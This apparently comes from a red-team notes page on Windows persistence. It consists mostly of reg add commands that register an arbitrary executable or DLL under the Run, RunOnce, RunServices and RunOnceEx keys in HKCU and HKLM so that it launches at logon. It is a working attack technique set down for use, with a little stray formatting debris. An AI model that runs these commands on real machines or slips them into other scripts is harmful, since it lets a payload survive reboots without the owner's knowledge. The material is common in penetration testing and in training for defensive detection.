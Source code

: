 # Registry

Terminal

```
# 
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"

#
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
```

\--------------------------------------------------------------------------

Oddvar Moe discovered two more registry locations that could allow red teams to achieve persistence by executing either an arbitrary payload or a DLL. These will be executed during logon and require admin level privileges.

```
// Some codereg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.dll"
```

